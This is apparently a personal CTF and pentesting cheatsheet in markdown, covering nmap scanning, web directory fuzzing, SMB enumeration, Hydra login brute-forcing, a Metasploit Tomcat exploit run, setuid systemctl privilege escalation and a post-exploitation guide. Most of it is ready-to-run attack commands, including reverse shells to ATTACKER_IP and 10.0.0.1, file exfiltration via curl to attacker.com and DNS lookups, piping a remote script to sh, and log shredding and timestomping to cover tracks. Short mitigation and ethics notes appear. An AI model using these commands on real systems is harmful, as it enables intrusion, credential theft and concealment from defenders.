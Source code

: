 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>

## Web Exploitation

<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>


## Privilege Escalation

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


## Shell
<details>
  <summary>
    
### Automated File Reading with find + while Loop

  </summary>

If cat is disabled but you have bash or sh, you can read all files recursively:

```bash
find / -type f -name "*.txt" -exec sh -c 'echo "File: {}"; while IFS= read -r line; do echo "$line"; done < {}' \; 2>/dev/null
```
This will list and print all .txt files on the system.

Modify -name "*.txt" to target other extensions (e.g., *.php, *.bak).
</details>

<details>
  <summary>

    
  ### **Ultimate Linux Post-Exploitation & Flag Hunting Guide**  

  </summary>


---

*(CTF | Bug Bounty | Pentest | Red Team)*  

## **🔍 1. Finding Flags/Sensitive Files**  
### **A. Quick File Searches**
```bash
# Find flags by name/extension  
find / -type f \( -name "*flag*" -o -name "*.txt" -o -name "*.conf" \) 2>/dev/null  

# Find recently modified files (last 24h)  
find / -type f -mtime -1 2>/dev/null  

# Find hidden files  
find / -name ".*" -ls 2>/dev/null  
```

### **B. Content Hunting (Passwords, API Keys)**
```bash
# Search for common patterns  
grep -rniE "password|api[_-]?key|jwt|secret|flag{" /etc /home /var/www 2>/dev/null  

# Database credentials  
grep -rni "mysql://\|postgresql://" / 2>/dev/null  
```

### **C. Critical Paths**
| Path                 | Purpose                          |
|----------------------|----------------------------------|
| `/home/*/.ssh/`      | SSH private keys                 |
| `/var/www/html/`     | Web app configs (Bug Bounty)     |
| `/etc/shadow`        | Password hashes (Pentest)        |
| `/opt/backups/`      | Database/config backups          |

---

## **🚫 2. Bypassing Restrictions**  
### **A. Read Files Without `cat`**
```bash
# Basic alternatives  
less /path/file      # Interactive  
tail -n 50 /path/file  # Last 50 lines  

# Scripting  
python3 -c "print(open('/etc/passwd').read())"  
perl -pe 'print' /path/file  

# Binary/encoded  
strings /path/file   # Extract text  
base64 /path/file | base64 -d  # Encode→Decode  
```

### **B. Wildcard Bypass**
```bash
/bin/?at /path/file   # Tries /bin/cat, /bin/bat  
```

### **C. Stealthy Exfiltration**
```bash
# DNS (Attacker: `sudo tcpdump -i eth0 udp port 53`)  
xxd -p /path/file | while read line; do dig "$line.domain.com"; done  

# HTTP (Quick)  
curl -X POST --data-binary @/path/file http://attacker.com  
```

---

## **🛠️ 3. Privilege Escalation**  
### **A. Quick Checks**
```bash
# Sudo abuse  
sudo -l  # Check ALL/NOPASSWD  

# SUID/SGID binaries  
find / -perm -4000 -o -perm -2000 2>/dev/null  

# Writable cron jobs  
ls -la /etc/cron* /var/spool/cron  
```

### **B. Kernel Exploits**
```bash
uname -a  # Check version  
searchsploit linux kernel 5.4.0  # Find exploits  
```

### **C. Automated Tools**
```bash
# LinPEAS (Full audit)  
curl -L https://linpeas.sh | sh  

# LinEnum (Quick enum)  
./LinEnum.sh -t  
```

---

## **📜 4. Decoding Data**  
```bash
# Base64  
echo "RkxBR3tleGFtcGxlfQ==" | base64 -d  

# Hex  
echo "464C4147" | xxd -r -p  

# ROT13  
echo "SYNT" | tr 'A-Za-z' 'N-ZA-Mn-za-m'  
```

---

## **🚪 5. Shell Escape**  
```bash
# Spawn TTY shell  
python3 -c 'import pty; pty.spawn("/bin/bash")'  

# Reverse shell  
bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'  
```

---

## **🧹 6. Covering Tracks**  
```bash
# Clear logs  
shred -u /var/log/auth.log  

# Timestomp  
touch -r /etc/passwd /root/.bash_history  
```

---

## **🎯 Pro Tips**  
- **CTFs**: Check `/tmp/`, `/opt/`, and home directories.  
- **Bug Bounty**: Hunt for `.env`, `config.php.bak`.  
- **Pentest**: Always check `sudo -l` and SUID binaries first.  

---

### **📥 One-Pager Cheatsheet**  
```markdown
1. Find flags: `find / -name "*flag*" 2>/dev/null`  
2. Read files: `less /path/file` or `python3 -c "print(open('f').read())"`  
3. PrivEsc: `sudo -l`, `find / -perm -4000`  
4. Decode: `echo "BASE64" | base64 -d`  
5. Shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`  
```


</details>


<details>
  <summary>

  ### Detailed Guide: RSA Private Key 

  </summary>


## **1. Introduction to RSA Private Keys**
An **RSA private key** is a cryptographic key used for secure authentication, typically in SSH, SSL/TLS, and encrypted communications. If exposed, it can lead to **unauthorized system access**, making it a critical finding in security assessments.

### **Key Characteristics**
- **Format**: PEM (Base64-encoded, with `-----BEGIN RSA PRIVATE KEY-----` header).
- **Usage**: SSH logins, decrypting data, or signing certificates.
- **Common Locations**:
  - Web server leaks (`/id_rsa`, `/backup/id_rsa.bak`).
  - Git repository exposures (`.git/config`, `~/.ssh/`).
  - Misconfigured cloud storage (AWS S3, GCP buckets).

---

## **2. Exploitation in Penetration Testing**
### **Step 1: Identify & Validate the Key**
- **Check if the key is valid**:
  ```bash
  openssl rsa -in id_rsa -check
  ```
- **If passphrase-protected**, crack it using:
  ```bash
  ssh2john id_rsa > id_rsa.hash  
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```

### **Step 2: Use the Key for SSH Access**
- **Restrict permissions** (SSH requires strict file modes):
  ```bash
  chmod 600 id_rsa
  ```
- **Attempt SSH login**:
  ```bash
  ssh -i id_rsa user@target_ip
  ```
- **Common Usernames** (if unknown):
  ```bash
  for user in $(cat users.txt); do ssh -i id_rsa $user@target_ip -o ConnectTimeout=2; done
  ```

### **Step 3: Privilege Escalation**
- Check `sudo -l` for misconfigurations (as in your `wget` case).
- Look for **writable cron jobs**, **SUID binaries**, or **kernel exploits**.

---

## **3. Bug Bounty Implications**
### **Where to Find Exposed Keys**
- **GitHub/GitLab Repos**: Search for `-----BEGIN RSA PRIVATE KEY-----`.
- **Exposed Backups**: `/backup`, `/www/backup`, `.bak` files.
- **Logs & Environment Variables**: Check `/proc/self/environ`, error logs.

### **Impact**
- **Critical Severity**: Unauthorized server access → data breaches.
- **Report Template**:
  ```
  Title: Exposed RSA Private Key Leading to Server Compromise  
  Description: A private SSH key was found at [URL], allowing unauthorized access to [service].  
  Proof: [Attach key + successful SSH login screenshot]  
  Remediation: Revoke the key, enforce key rotation, disable passwordless auth.  
  ```

---

## **4. CTF-Specific Techniques**
### **Common CTF Challenges**
1. **Hidden Key in Web Source**  
   - Use `curl` or `view-source:` to find keys in HTML comments.
2. **Steganography in Images**  
   - Extract keys using `steghide`, `binwalk`, or `strings`.
3. **Abusing Weak Permissions**  
   - If you get a low-priv shell, check `/home/*/.ssh/` for keys.

### **Automated Tools**
- **TruffleHog**: Scans Git repos for secrets.
- **GitLeaks**: Detects exposed keys in version control.
- **ssh-audit**: Checks SSH server vulnerabilities.

---

## **5. Defensive Measures (For Admins)**
### **Preventing Key Leaks**
- **Never store keys in web directories**.
- **Use SSH certificates** instead of raw keys.
- **Rotate keys periodically** and revoke compromised ones.

### **Hardening SSH**
```ini
# /etc/ssh/sshd_config
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

---

## **6. Legal & Ethical Considerations**
- **Penetration Testing**: Only test authorized systems.
- **Bug Bounty**: Follow the program’s rules (don’t exfiltrate data).
- **CTFs**: Keys are intentionally placed—don’t attack real systems.

---

## **7. Conclusion**
- **Pentest**: Use exposed keys for initial access → escalate privileges.
- **Bug Bounty**: Report exposed keys immediately (critical finding).
- **CTF**: Often a shortcut to flags—check backups, source code, and logs.

### **Final Command Cheatsheet**
```bash
# Test key validity
openssl rsa -in id_rsa -check

# Crack passphrase-protected key
ssh2john id_rsa > hash && john --wordlist=rockyou.txt hash

# SSH login attempt
chmod 600 id_rsa && ssh -i id_rsa user@target
```

</details>

